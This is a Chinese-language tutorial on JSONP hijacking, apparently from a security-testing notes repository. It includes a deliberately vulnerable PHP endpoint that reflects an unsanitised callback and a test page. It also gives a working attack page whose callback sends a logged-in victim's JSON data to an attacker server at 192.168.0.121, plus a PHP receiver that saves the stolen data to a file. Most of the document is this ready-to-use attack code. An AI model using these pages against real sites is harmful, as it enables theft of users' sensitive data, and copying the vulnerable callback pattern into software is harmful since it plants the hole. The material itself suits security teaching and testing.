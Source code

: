 # :technologist:json劫持漏洞

​		JSON是一种轻量级的数据交换格式，而劫持就是对数据进行窃取（或者应该称为打劫、拦截比较合适。恶意攻击者通过某些特定的手段，将本应该返回给用户的JSON数据进行拦截，转而将数据发送回给恶意攻击者，这就是JSON劫持的大概含义。一般来说进行劫持的JSON数据都是包含敏感信息或者有价值的数据。

​		攻击方法与csrf类似，都是需要用户登录帐号，身份认证还没有被消除的情况下访问攻击者精心设计好的的页面。就会获取json数据，把json数据发送给攻击者。

## 测试流程与方法

找到json的类型页面，写好攻击页面，诱导目标访问页面，从而获取数据。

### 靶机测试

```php
<?php
	header('Content-type: application/json');
	$callback = $_GET['callback'];
  print $callback.'({"id" : "1","name" : "moonsec","email":"moon@moonsec.com"});';
?>
```

### 测试页面html

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>jsonp劫持</title>
  <script src="http://apps.bdimg.com/libs/jquery/1.10.2/jquery.min.js"></script>
</head>

<body>
	<script>function jsonp2(data){alert(JSON.stringify(data));}</script>
	<script src="http://www.webtester.com/json.php?callback=jsonp2"></script>
</body>
</html>
```

### 劫持json发送返回数据

```html
<!DOCTYPE html>
<html>
<head>
	<meta charset="UTF-8">
	<title></title>
	<script src="http://apps.bdimg.com/libs/jquery/1.10.2/jquery.min.js"></script>
	<script>
		function test(data){
			//alert(v.name);
  		var xmlhttp = new XMLHttpRequest();
  		var url = "http://192.168.0.121/1.php?file=" + JSON.stringify(data);
  		xmlhttp.open("GET",url,true);
  		xmlhttp.send();
  }
  </script>
<script src="http://www.webtester.com/json.php?callback=test"></script>
</head> 
   <body>
   </body>
</html>
```

**远程接收的php**

```php
<?php
	if($_GET['file']){
    file_put_contents('json.txt',$_GET['file'])
	}
?>
```

​		诱导目标访问带有攻击代码的页面。当用户访问这个页面的时候就会把数据发送到远程的服务器上的1.PHP 1.php就会把得到的数据生成json.txt